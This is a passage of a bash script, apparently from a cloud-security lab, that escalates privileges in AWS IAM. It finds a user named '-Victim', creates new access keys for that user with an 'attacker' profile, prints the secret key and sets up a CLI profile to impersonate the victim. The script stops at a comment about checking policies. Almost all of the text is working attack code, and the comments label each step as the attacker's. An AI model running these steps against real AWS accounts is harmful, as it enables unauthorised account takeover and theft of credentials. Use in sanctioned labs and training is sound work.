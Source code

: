 ```bash
# List all users.  The attacker needs to find the "Victim" user.
VICTIM_USER=$(aws iam list-users --profile attacker --query "Users[?contains(UserName, '-Victim')].UserName" --output text)

if [ -z "$VICTIM_USER" ]; then
  echo "ERROR: Could not find a user ending in '-Victim'.  Check the AWS environment."
  exit 1
fi

echo "Victim User Name: $VICTIM_USER"

# Check if the victim already has access keys.
aws iam list-access-keys --user-name "$VICTIM_USER" --profile attacker  # No need to capture output, presence/absence is enough

if [ $? -eq 0 ]; then # Check the exit code. 0 means success (keys might exist)
   KEY_CHECK=$(aws iam list-access-keys --user-name $VICTIM_USER --profile attacker --output json)
    if [[ "$KEY_CHECK" == *"AccessKeyMetadata"* ]]; then
       echo "WARNING: Victim user $VICTIM_USER already has access keys.  This script will create new ones."
    else
        echo "Victim has no existing access keys"
    fi

else
  echo "ERROR: Unable to list access keys for the victim user. Check permissions."
  exit 1
fi

# Create new access keys for the victim user.  This is the privilege escalation.
CREDS=$(aws iam create-access-key --user-name "$VICTIM_USER" --profile attacker --output json)

if [ -z "$CREDS" ]; then
  echo "ERROR: Failed to create access keys for the victim user. Check permissions."
  exit 1
fi

VICTIM_ACCESS_KEY_ID=$(echo "$CREDS" | jq -r '.AccessKey.AccessKeyId')
VICTIM_SECRET_ACCESS_KEY=$(echo "$CREDS" | jq -r '.AccessKey.SecretAccessKey')

echo "Created new access keys for Victim user."
echo "Victim Access Key ID: $VICTIM_ACCESS_KEY_ID"  # Display for manual use if needed
echo "Victim Secret Access Key: $VICTIM_SECRET_ACCESS_KEY" # Display for manual use

# --- 3. Impersonating the Victim and Accessing S3 ---

# Configure a new AWS CLI profile for the victim user.
aws configure set aws_access_key_id "$VICTIM_ACCESS_KEY_ID" --profile victim
aws configure set aws_secret_access_key "$VICTIM_SECRET_ACCESS_KEY" --profile victim
aws configure set region "$AWS_DEFAULT_REGION" --profile victim # Reuse the same region
aws configure set output json --profile victim

echo "Victim profile configured."

# Verify the victim profile.
VICTIM_ARN=$(aws sts get-caller-identity --profile victim --query "Arn" --output text)
if [ -z "$VICTIM_ARN"]; then
   echo "ERROR: Unable to verify victim identity. Check victim credentials."
   exit 1
fi
echo "Successfully assumed Victim User: $VICTIM_ARN"

#check if the victim has any attached policies
```